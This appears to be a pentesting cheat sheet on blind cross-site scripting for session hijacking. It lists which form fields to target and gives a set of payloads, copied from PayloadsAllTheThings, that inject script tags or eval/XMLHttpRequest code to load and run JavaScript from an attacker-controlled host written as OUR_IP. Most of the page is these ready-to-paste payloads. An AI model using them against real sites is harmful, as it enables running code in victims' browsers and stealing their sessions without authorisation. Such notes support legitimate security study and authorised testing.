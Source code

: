 
## Session Hijacking

### Blind XSS Detection

Examples of forms that may contain blind XSS

- Contact Forms
- Reviews
- User Details
- Support Tickets
- HTTP User-Agent header

#### Make a fake user and submit it to see how the form handles the data

#### To detect Blind XSS, use a JavaScript payload that sends an HTTP request back to our server. If the JavaScript code gets executed, we will get a response on our machine, and we will know that the page is indeed vulnerable.

### Loading a Remote Script

#### Include a remote script by providing its URL
```html
<script src="http://OUR_IP/script.js"></script>
```

#### Identify the vulnerable input field that executed the script
```html
<script src="http://OUR_IP/username"></script>
```

#### Blind XSS Payloads from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md)
```html
<script src=http://OUR_IP></script>
```

```html
'><script src=http://OUR_IP></script>
```

```html
"><script src=http://OUR_IP></script>
```

```html
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
```

```html
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
```
